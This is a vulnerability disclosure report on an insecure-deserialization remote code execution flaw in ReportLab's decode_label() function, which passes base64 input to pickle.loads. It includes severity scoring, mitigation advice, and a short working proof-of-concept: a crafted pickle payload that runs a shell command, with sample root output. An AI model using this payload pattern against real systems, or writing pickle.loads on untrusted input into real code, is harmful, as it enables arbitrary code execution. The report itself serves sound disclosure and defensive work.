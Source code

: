 # Vulnerability Report

## Vulnerability Name
```
Vulnerability Name: ReportLab <= 4.4.3 vulnerable to Remote Code Execution (RCE) via unsafe deserialization in decode_label()
```

## Affected URL and Area
```
Affected Package: reportlab (PyPI, ReportLab project)
Affected Module/Function: reportlab.lib.utils.decode_label
Affected Version: <= 4.4.3 (latest tested)
```

## Vulnerability Description
```
ReportLab provides PDF generation utilities widely used in Python projects.

Through version 4.4.3 (latest tested), the function
`reportlab.lib.utils.decode_label()` is vulnerable to **remote code execution (RCE)**
because it directly calls `pickle.loads()` on base64-decoded user-supplied input.

An attacker can supply a crafted base64 string containing a malicious pickle payload.
When `decode_label()` is invoked on this input, arbitrary Python objects are
deserialized, enabling the execution of system commands such as `os.system("id")`.

This is a classic **insecure deserialization vulnerability (CWE-502)** similar in
impact to previous CVEs in PyYAML and sqlitedict, and enables attackers to execute
arbitrary code when untrusted input reaches this function.
```

## Severity and Risk Rating
```
Severity: Critical
Risk Rating: Critical
```

## CVE, CWE, CVSS Score and Vulnerability Class
```
CVE: Not yet assigned
CWE-ID: CWE-502 (Deserialization of Untrusted Data)
CVSS Score: 9.8 (CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H)
Vulnerability Class: Insecure Deserialization / Remote Code Execution
```

## Impact of Vulnerability
```
An attacker who can influence input passed to decode_label() can:

- Execute arbitrary system commands on the victim machine
- Read, modify, or delete arbitrary files
- Achieve full compromise of the host environment
- Potentially escalate privileges if ReportLab runs with higher permissions

Because ReportLab is used in many web frameworks, ERP systems, and PDF generators,
this vulnerability has a wide potential impact.
```

## Steps to Reproduce
```
Steps to reproduce:

1. Install ReportLab:
   pip install reportlab==4.4.3

2. Create a PoC script (poc.py) with the following code:

   import pickle, base64
   from reportlab.lib import utils

   payload = b"cos\nsystem\n(S'id'\ntR."
   encoded = base64.b64encode(payload).decode("latin1")

   print("[*] Encoded payload:", encoded)

   result = utils.decode_label(encoded)
   print("[*] RCE Result:", result)

3. Run the script:
   python3 poc.py

4. Observe that arbitrary shell commands are executed
   upon calling decode_label(), demonstrating RCE.
```

## Proof of Concept (PoC)
- PoC Script: [View poc.py](https://github.com/Whyshealwaysbrokeme/vuln-reportlab-4.4.3-decode_label-rce/blob/main/report/poc.py)  

- PoC Screenshot:  
  ![PoC Script](https://github.com/Whyshealwaysbrokeme/vuln-reportlab-4.4.3-decode_label-rce/blob/main/report/poc.png)  

- Execution Output:  
  ![Execution Output](https://github.com/Whyshealwaysbrokeme/vuln-reportlab-4.4.3-decode_label-rce/blob/main/report/output.png)  

Example Output (on vulnerable system):
```
[*] Encoded payload: Y29zCnN5c3RlbQooUydpZCcKdFIu
uid=0(root) gid=0(root) groups=0(root)
[*] RCE Result: 0
```

## Source Code Reference
```
reportlab/lib/utils.py (ReportLab 4.4.3)
Line 122:
    def decode_label(label):
        return pickle.loads(base64_decodebytes(label.encode('latin1')))
```

## Mitigation/Remediation
```
Mitigation Steps:

1. Do not use pickle.loads() on untrusted input.
2. Replace pickle with a safe serialization format such as JSON.
3. Add explicit warnings in documentation about unsafe functions.
4. Consider removing or deprecating decode_label() to avoid misuse.
```

## References
```
- CWE-502: Deserialization of Untrusted Data
  https://cwe.mitre.org/data/definitions/502.html
- CVSS v3.1 Specification
  https://www.first.org/cvss/specification-document
- ReportLab Project: https://www.reportlab.com/
```

## Disclosure
```
Disclosure Date: 25 August 2025
Reporter: Manopakorn Kooharueangrong (Whyshealwaysbrokeme)
Status: Under Responsible Disclosure
```
